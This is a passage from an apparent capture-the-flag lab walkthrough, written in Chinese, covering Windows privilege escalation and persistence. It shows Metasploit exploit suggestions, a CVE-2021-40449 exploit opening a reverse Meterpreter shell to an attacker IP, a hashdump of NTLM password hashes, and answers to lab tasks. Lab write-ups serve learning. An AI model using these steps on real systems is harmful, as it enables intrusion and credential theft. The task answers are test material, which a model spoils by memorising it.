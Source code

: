 [*] 10.200.114.35 - Collecting local exploits for x64/windows...
[*] 10.200.114.35 - 32 exploit checks are being tried...
[+] 10.200.114.35 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.200.114.35 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.200.114.35 - exploit/windows/local/cve_2020_17136: The target appears to be vulnerable. A vulnerable Windows 10 v1809 build was detected!
[+] 10.200.114.35 - exploit/windows/local/cve_2021_40449: The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[+] 10.200.114.35 - exploit/windows/local/cve_2022_21999_spoolfool_privesc: The target appears to be vulnerable.
[*] Post module execution completed

```

使用```exploit/windows/local/cve_2021_40449```模块提权到system

```
msf6 exploit(windows/local/cve_2021_40449) > run

[*] Started reverse TCP handler on 10.50.111.108:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target's build number: 10.0.17763.1577
[+] The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[*] Launching msiexec to host the DLL...
[+] Process 5092 launched.
[*] Reflectively injecting the DLL into 5092...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 10.200.114.35
[*] Meterpreter session 4 opened (10.50.111.108:4444 -> 10.200.114.35:52297 ) at 2022-08-06 05:44:38 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

hashdump
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:947722a39b2fc20c72c0d7626cf147b8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
meterpreter >
```

**Task 43  Privilege Escalation WERE TAKING OVER THIS DLL!**

> What is the name of the vulnerable application found on PC-FILESRV01?

> kavremover


## 主机持久性
根据lab指引,第一个缺失的dll文件应该是：```wow64log.dll```

![img](https://i.imgur.com/8xu1QAf.png)

**Task 44  Persistence WERE TAKING OVER THIS DLL! Part: II**

> What is the first listed vulnerable DLL located in the Windows folder from the application

> wow64log.dll

```